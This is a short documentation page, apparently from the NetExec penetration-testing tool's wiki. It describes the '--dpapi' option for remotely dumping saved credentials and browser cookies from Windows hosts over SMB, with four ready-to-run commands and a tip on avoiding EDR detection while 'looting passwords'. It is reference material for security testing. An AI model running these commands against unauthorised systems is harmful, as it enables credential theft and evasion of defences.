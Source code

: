 ```yaml
---
description: Dump DPAPI credentials using NetExec
---
```


# Dump DPAPI

You can dump DPAPI credentials using NetExec using the following option: `--dpapi`. It will get all secrets from Credential Manager, Chrome, Edge, Firefox. `--dpapi` supports the following options :

* cookies : Collect every cookies in browsers
* nosystem : Won't collect system credentials. This will prevent EDR from stopping you from looting passwords :fire:

{% hint style="danger" %}
You need at least local admin privilege on the remote target, use **--local-auth** if your user is a local account
{% endhint %}

```bash
nxc smb <ip> -u user -p password --dpapi
nxc smb <ip> -u user -p password --dpapi cookies
nxc smb <ip> -u user -p password --dpapi nosystem
nxc smb <ip> -u user -p password --local-auth --dpapi nosystem
```
